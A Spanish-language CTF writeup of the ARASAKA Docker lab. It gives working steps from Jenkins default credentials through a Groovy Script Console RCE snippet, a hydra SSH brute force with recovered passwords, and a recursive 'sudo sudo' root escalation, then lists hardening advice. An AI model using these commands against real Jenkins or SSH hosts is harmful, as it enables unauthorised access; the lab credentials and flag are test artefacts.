# ARASAKA — Writeup de Auditoría de Seguridad (CTF)

| Campo | Valor |
|---|---|
| **Laboratorio** | ARASAKA — *Night City* |
| **Plataforma** | Whoami-Labs |
| **Dificultad** | Difícil ★★★★★☆☆☆ (5 puntos) |
| **Autor del writeup** | chifay |
| **Fecha** | 21/10/2026 |
| **Objetivo** | `172.17.0.2` (contenedor Docker) |
| **Atacante** | Kali Linux — `172.17.0.1` (red del contenedor) |
| **Hostname del objetivo** | `arasaka` |
| **Stack del objetivo** | Ubuntu 22.04.5 LTS · Apache 2.4.52 · OpenSSH 8.9p1 · Jenkins 2.452.4 sobre Jetty 10.0.20 |
| **Bandera obtenida** | `ARASAKA{sudo_chr00t_s0ulk1ll3r_n1ght_c1ty}` |
| **Vector de entrada** | Panel Jenkins con credenciales débiles (`admin:admin123`) + Script Console |
| **Ruta completa** | Portada estática → Jenkins → RCE como `jenkins` → SSH con contraseñas débiles → `netrunner` → regla `NOPASSWD: /usr/bin/sudo` → `root` |
| **Documento** | Writeup completo; los artefactos que respaldan cada conclusión están en el repositorio (ver §13) |

---

## 1. Resumen ejecutivo

ARASAKA es un laboratorio de dificultad alta con una particularidad: **la web pública del puerto 80
es un señuelo completo**. No hay formularios, parámetros, LFI ni un CMS que enumerar. La portada
corporativa solo contiene un botón que apunta al verdadero punto de entrada: **Jenkins en el puerto
8080**.

El reto se resuelve encadenando **tres capas de configuración débil**, cada una independiente de la
anterior:

1. **Jenkins** acepta la credencial `admin:admin123` y concede acceso total al **Script Console**.
   Esa consola es una función legítima de administración, pero con una cuenta de administrador
   equivale a **ejecución remota de código** como `jenkins` (`uid=999`).
2. La cuenta `jenkins` está deliberadamente contenida: no tiene capabilities, no hay `docker.sock`,
   no hay tareas cron explotables y su contraseña está bloqueada para SSH. El pivote se hace por
   **SSH con contraseñas temáticas débiles**, que permiten entrar como `vsaburo`, `johnny` y,
   sobre todo, `netrunner`.
3. `netrunner` tiene una regla absurda en `/etc/sudoers`:
   `netrunner ALL=(ALL) NOPASSWD: /usr/bin/sudo`. Como el comando autorizado es **el propio `sudo`**,
   el binario se ejecuta como `root` y el `sudo` interno ya no aplica ninguna restricción. Es
   equivalente a `ALL` sin contraseña.

La pista `CVE-2025-32463 Research Directory` del home de `netrunner` es un **señuelo**: Ubuntu
22.04 (jammy) figura como *Not affected* para esa CVE y el paquete instalado es
`1.9.9-1ubuntu2.5`. El vector real no es una CVE de `sudo`, sino la regla de `sudoers`.

| Etapa | Vector | De → A |
|---|---|---|
| 1 | Portada estática → enlace a Jenkins | — → superficie |
| 2 | `admin:admin123` en Jenkins | — → panel admin |
| 3 | Script Console (Groovy → `/bin/bash`) | admin → `jenkins` |
| 4 | SSH con contraseñas temáticas | `jenkins` → `netrunner` |
| 5 | `NOPASSWD: /usr/bin/sudo` | `netrunner` → `root` |



---

## 2. Reconocimiento

### 2.1 Puertos y servicios

```bash
nmap -Pn -p- --min-rate 4000 -T4 172.17.0.2
nmap -Pn -sV -sC -p 22,80,8080,38799 172.17.0.2
```



| Puerto | Estado | Servicio | Notas |
|---|---|---|---|
| 22/tcp | open | OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 | Autenticación por contraseña habilitada |
| 80/tcp | open | Apache httpd 2.4.52 (Ubuntu) | Portada estática de ARASAKA |
| 8080/tcp | open | Jetty 10.0.20 | Jenkins 2.452.4 |
| 38799/tcp | open | Jenkins JNLP | `JNLP4-connect`, `Ping`; filtra `Jenkins-Version` |

De 65 535 puertos TCP, solo cuatro están abiertos. El 38799 no lo publica `startlab.sh` hacia el
host, pero sí queda accesible desde la red del contenedor: es el listener de agentes de Jenkins y
anuncia la misma versión que el panel (`2.452.4`).

> **Nota sobre el nombre:** `nmap` resuelve `172.17.0.2` como `metasploitable.vm` por una entrada
> heredada del entorno local. Dentro del contenedor, `hostname` devuelve `arasaka`. La evidencia
> interna manda: el hostname real del laboratorio es `arasaka`.

### 2.2 Puerto 80 — señuelo estático

```bash
curl -s http://172.17.0.2/
```

La página es un HTML único de 3 068 bytes, sin JavaScript de aplicación ni formularios. Su contenido
es narrativo: los proyectos *SOULKILLER*, *RELIC PROTOCOL* y *MIKOSHI DATABASE*, y un aviso:

> «Corporate employees must authenticate via Jenkins Portal»

El único enlace funcional es **`ACCESS JENKINS PORTAL`** → `http://172.17.0.2:8080`.



La enumeración web no aporta nada más:

```text
index.html           (Status: 200) [Size: 3068]
server-status        (Status: 403) [Size: 275]
```

No hay `robots.txt`, `.git`, backups, paneles ocultos ni parámetros. `gobuster` contra el 8080
tampoco devuelve rutas útiles porque Jenkins exige autenticación para todo.

### 2.3 Jenkins — fingerprint

```bash
curl -sI http://172.17.0.2:8080/login
curl -s  http://172.17.0.2:8080/whoAmI/api/json
```

Cabeceras y respuesta relevante:

```http
HTTP/1.1 403 Forbidden
X-Content-Type-Options: nosniff
X-Jenkins: 2.452.4
X-Jenkins-Session: 9cb0b322
Server: Jetty(10.0.20)
```

```json
{"_class":"hudson.security.WhoAmI","anonymous":true,
 "authenticated":true,"authorities":["anonymous"],"name":"anonymous"}
```

`allowAnonymousRead=false`: sin sesión no se puede leer ni la API. El login es el único punto de
entrada y no hay captcha ni bloqueo por intentos.



---

## 3. Acceso a Jenkins

### 3.1 Credencial débil

Se probó la credencial más obvia para una instalación de laboratorio: **`admin:admin123`**. Fue
aceptada.

```bash
curl -s -c /tmp/jc -b /tmp/jc \
  -X POST http://172.17.0.2:8080/j_spring_security_check \
  -d 'j_username=admin&j_password=admin123&from=&Submit=Sign+in'

curl -s -b /tmp/jc http://172.17.0.2:8080/whoAmI/api/json
```

```json
{"_class":"hudson.security.WhoAmI","anonymous":false,
 "authenticated":true,"authorities":["authenticated","admin"],
 "name":"admin"}
```

El usuario autenticado es `admin` y tiene privilegios completos. El panel está limpio: no hay jobs,
plugins de terceros ni credenciales almacenadas. La superficie relevante es el **Script Console**
(`/script`), disponible en el menú de administración.

### 3.2 La contraseña está codificada en el propio Jenkins

Tras obtener RCE se pudo leer el script de inicialización que crea la cuenta:

```groovy
// /var/lib/jenkins/init.groovy.d/basic-security.groovy
def hudsonRealm = new HudsonPrivateSecurityRealm(false)
hudsonRealm.createAccount("admin", "admin123")
instance.setSecurityRealm(hudsonRealm)

def strategy = new FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
```

La contraseña está **en claro** en un fichero propiedad de `jenkins`. Cualquier lectura del home de
Jenkins (RCE, backup, mala configuración de permisos) la expone. El hash bcrypt de
`users/admin_*/config.xml` es un control secundario inútil si el secreto vive al lado.



---

## 4. RCE como `jenkins`

### 4.1 Script Console

Jenkins permite ejecutar Groovy arbitrario desde `/script` a cualquier usuario con privilegio de
administración. No es una CVE: es una característica documentada. El problema es la combinación con
una credencial débil.

Para evitar la interpolación de `$` de Groovy, el helper `exploits/jenkins_rce.py` codifica el
comando en base64 y lo ejecuta con `/bin/bash` mediante `ProcessBuilder`:

```groovy
def p = new ProcessBuilder('/bin/bash','-c',
  "echo <comando-base64> | base64 -d | /bin/bash")
  .redirectErrorStream(true).start()
println p.inputStream.getText('UTF-8')
p.waitFor()
```

El script hace login, obtiene el crumb CSRF y envía el formulario a `/script`, extrayendo el
resultado del `<pre>` de la respuesta.

```bash
python3 exploits/jenkins_rce.py 'id; hostname; uname -a; cat /etc/passwd'
```

```text
uid=999(jenkins) gid=999(jenkins) groups=999(jenkins)
arasaka
Linux arasaka 7.1.5+kali-amd64 ... x86_64 GNU/Linux

root:x:0:0:root:/root:/bin/bash
...
jenkins:x:999:999::/var/lib/jenkins:/bin/bash
netrunner:x:1000:1000::/home/netrunner:/bin/bash
johnny:x:1001:1001::/home/johnny:/bin/bash
vsaburo:x:1002:1002::/home/vsaburo:/bin/bash
takemura:x:1003:1003::/home/takemura:/bin/bash
```

> El kernel que aparece (`7.1.5+kali-amd64`) es el del host: el contenedor comparte kernel. El
> sistema de usuarios y el `os-release` sí son del objetivo: Ubuntu 22.04.5 LTS (jammy).



### 4.2 Enumeración post-explotación

Con ejecución como `jenkins` se lanzó `exploits/enum_jenkins.sh`: identidad, usuarios, grupos,
homes, `sudo`, SUID/SGID, capabilities, cron, procesos, Jenkins home y permisos de escritura.

| Comprobación | Resultado | Consecuencia |
|---|---|---|
| `id` | `uid=999(jenkins)` | Sin privilegios |
| Capabilities | `CapEff=0000000000000000` | Sin `cap_setuid` ni equivalentes |
| `docker.sock` | No existe | Sin escape por Docker |
| Cron de usuario | `crontab: command not found` | Sin tarea programada abusable |
| SUID/SGID | Binarios estándar de Ubuntu | Sin binario custom |
| `sudo -n -l` | `sudo: a password is required` | `jenkins` no tiene regla |
| Contraseña de `jenkins` | `L` en `passwd -S` | Cuenta bloqueada para SSH |
| `sshd_config` | `PasswordAuthentication yes` | SSH por contraseña viable |
| `/etc/sudoers` | `-r--r----- root:root` | No legible ni escribible |

La conclusión es directa: **`jenkins` no escala por sí mismo**. El valor de la RCE es la
enumeración: revela cuatro cuentas humanas (`netrunner`, `johnny`, `vsaburo`, `takemura`) y confirma
que SSH acepta contraseñas. El siguiente paso es un pivote lateral.

---

## 5. Pivote SSH

### 5.1 Superficie

```text
PasswordAuthentication yes
KbdInteractiveAuthentication no
UsePAM yes
```

No hay Fail2Ban (`/etc/fail2ban` no existe) ni bloqueo por intentos. El puerto 22 es, por tanto, un
objetivo de fuerza bruta y *password spraying* sin fricción.

### 5.2 Wordlist temática

Se generó una lista de 1 582 contraseñas con el vocabulario del laboratorio: personajes de
*Cyberpunk 2077*, nombres de empresas, proyectos y sufijos numéricos (`2077`, `2026`, `123`, `!`).
El generador está en `wordlists/gen_wordlist.py` y las listas en `wordlists/`.

```bash
hydra -L wordlists/arasaka_users.txt \
      -P wordlists/arasaka_passwords.txt \
      -t 4 -I -o loot/hydra-ssh.txt ssh://172.17.0.2
```

```text
[22][ssh] host: 172.17.0.2   login: netrunner   password: netrunner2077
```

Hydra confirmó `netrunner:netrunner2077`. A partir de la lista de contraseñas se probaron
manualmente las otras cuentas del `/etc/passwd`; dos de ellas reutilizaban el mismo patrón temático:

| Usuario | Contraseña | Origen | ¿sudo? |
|---|---|---|---|
| `vsaburo` | `arasaka` | Prueba temática dirigida | No |
| `johnny` | `silverhand` | Prueba temática dirigida | No |
| `netrunner` | `netrunner2077` | Hydra + wordlist | **Sí** |
| `takemura` | — | No comprometida | — |

`vsaburo` y `johnny` confirman el patrón de contraseñas, pero no tienen privilegios. **`netrunner`
es la cuenta que importa**: es la única con una regla en `sudoers`.



### 5.3 Home de `netrunner`

```text
/home/netrunner/exploit/
└── README.txt   →  "CVE-2025-32463 Research Directory"
```

El directorio es una pista deliberada. Se analiza en §6.3.

---

## 6. Escalada a `root`

### 6.1 `sudo -l`

```bash
sshpass -p netrunner2077 ssh netrunner@172.17.0.2
sudo -l
```

```text
Matching Defaults entries for netrunner on arasaka:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,
    use_pty

User netrunner may run the following commands on arasaka:
    (ALL) NOPASSWD: /usr/bin/sudo
```

La regla está en `/etc/sudoers`, fuera de `sudoers.d`:

```sudoers
netrunner ALL=(ALL) NOPASSWD: /usr/bin/sudo
```



### 6.2 Por qué la regla es equivalente a `ALL`

`sudo` autoriza a `netrunner` a ejecutar **`/usr/bin/sudo`** como cualquier usuario, sin contraseña.
Al invocarlo, el binario arranca con `euid=0`; el `sudo` interno ya se ejecuta como `root` y no
vuelve a evaluar la política de `netrunner`. El resultado es una recursión de privilegios:

```bash
sudo -n /usr/bin/sudo -n id
```

```text
uid=0(root) gid=0(root) groups=0(root)
```

```bash
sudo -n /usr/bin/sudo -n cat /root/flag.txt
```

```text
ARASAKA{sudo_chr00t_s0ulk1ll3r_n1ght_c1ty}
```

También se puede obtener una shell interactiva:

```bash
sudo -n /usr/bin/sudo -n /bin/bash
```

No hace falta ningún CVE, binario SUID adicional ni escritura en disco. **Quien puede ejecutar
`sudo` como root sin contraseña puede ejecutar cualquier cosa como root.**



### 6.3 La pista CVE-2025-32463 es un señuelo

El home de `netrunner` contiene un directorio llamado `CVE-2025-32463 Research Directory`. La CVE
real describe una escalada en `sudo` anterior a `1.9.17p1` que abusa de `--chroot` y de un
`/etc/nsswitch.conf` controlado por el usuario. El laboratorio instala:

```text
Sudo version 1.9.9
Version: 1.9.9-1ubuntu2.5
```

Y Canonical marca **Ubuntu 22.04 (jammy) como «Not affected»** para CVE-2025-32463. El changelog de
la versión instalada menciona CVE-2025-32462 (otra CVE distinta, ya corregida), no la 32463. Aunque
`sudo -R` exista en el binario, no se usó ni era necesario: la escalada real es la regla
`NOPASSWD: /usr/bin/sudo`. El nombre de la bandera (`chr00t`) es un guiño narrativo, no una
descripción del vector.



---

## 7. Validación de la bandera

La bandera se contrastó con el validador oficial del laboratorio (`startlab.sh`), que la compara
con `/root/flag.txt` dentro del contenedor:

```bash
printf 'ARASAKA{sudo_chr00t_s0ulk1ll3r_n1ght_c1ty}\n' | bash startlab.sh arasaka.tar
```

```text
LAB: ARASAKA
DIFICULTAD: ★★★★★☆☆☆ difícil (5 puntos)
IP del laboratorio: 172.17.0.2

Ingresa la flag (formato ARASAKA{...}):
¡Felicitaciones! Has infiltrado Arasaka Tower.

FECHA Y HORA: 2026-10-21 09:53:02 -0600
```



La primera validación quedó registrada a las **09:53:02 -0600**. La captura real del terminal,
tomada en una segunda ejecución a las **10:19:33 -0600**, confirma la misma bandera:



> El validador **recrea el contenedor** al ejecutarse. Por eso el ARASAKA actual está limpio y las
> evidencias del ataque (salidas, capturas y bandera) se conservan en local, en `recon/`, `loot/` y
> `docs/img/`.

---

## 8. Cadena de ataque completa


```text
   web :80  (portada estática ARASAKA)
        │  enlace «ACCESS JENKINS PORTAL»
        ▼
   Jenkins :8080  (2.452.4 · Jetty 10.0.20)
        │  admin:admin123
        ▼
   Script Console  (Groovy → /bin/bash)
        │  RCE como jenkins (uid 999)
        ▼
   /etc/passwd  →  netrunner · johnny · vsaburo · takemura
        │  SSH con contraseñas temáticas
        ▼
   netrunner  (netrunner2077)
        │  sudo -l → (ALL) NOPASSWD: /usr/bin/sudo
        ▼
   sudo sudo  →  uid=0(root)
        │
        ▼
   /root/flag.txt
```

---

## 9. Vulnerabilidades encontradas

| # | Severidad | Vulnerabilidad | Ubicación | CWE / Control |
|---|---|---|---|---|
| 1 | **Crítica** | Credencial de administrador débil y predecible (`admin:admin123`) | Jenkins `HudsonPrivateSecurityRealm` | CWE-521 |
| 2 | **Crítica** | `NOPASSWD` sobre el propio binario `sudo`: recursión que concede root efectivo | `/etc/sudoers` | CWE-269 |
| 3 | **Alta** | Script Console accesible con la cuenta admin: ejecución de código arbitrario | `/script` de Jenkins | CWE-94 |
| 4 | **Alta** | Contraseñas SSH temáticas y reutilizadas entre cuentas | `vsaburo`, `johnny`, `netrunner` | CWE-521 |
| 5 | **Alta** | SSH con autenticación por contraseña y sin rate limiting ni Fail2Ban | `/etc/ssh/sshd_config` | CWE-307 |
| 6 | **Media** | Contraseña de Jenkins almacenada en claro en un script de inicialización | `/var/lib/jenkins/init.groovy.d/basic-security.groovy` | CWE-798 |
| 7 | **Media** | Jenkins y sus agentes comparten host con usuarios humanos y `sudo` | Arquitectura del laboratorio | CWE-269 |
| 8 | **Media** | Versión de Jenkins y listener JNLP expuestos sin necesidad | `:8080`, `:38799` | CWE-200 |
| 9 | **Baja** | Puerto 80 con información de proyectos internos y ruta del panel | `index.html` | CWE-200 |
| 10 | **Baja** | Pista de CVE irrelevante que induce a error (deuda de documentación) | `/home/netrunner/exploit/README.txt` | CWE-1059 |

---

## 10. Recomendaciones

1. **Eliminar credenciales por defecto.** `admin:admin123` no debe existir ni en laboratorio. Usar
   contraseñas largas y únicas, y exigir MFA para cuentas administrativas.
2. **Restringir el Script Console.** Deshabilitarlo en producción o limitarlo a un grupo muy reducido
   con auditoría de cada ejecución. Un admin de Jenkins es, en la práctica, ejecución de código en el
   host.
3. **Prohibir `NOPASSWD` sobre `sudo`.** La regla `NOPASSWD: /usr/bin/sudo` es equivalente a
   `NOPASSWD: ALL`. Si se necesita delegación, autorizar comandos concretos con rutas absolutas y
   argumentos fijos, y validar con `visudo -c`.
4. **Sacar los secretos del código.** La contraseña de Jenkins debe venir de un gestor de secretos o
   de una variable de entorno inyectada al arrancar, nunca de un `.groovy` legible.
5. **Endurecer SSH.** Deshabilitar `PasswordAuthentication`, usar claves, limitar usuarios y origen,
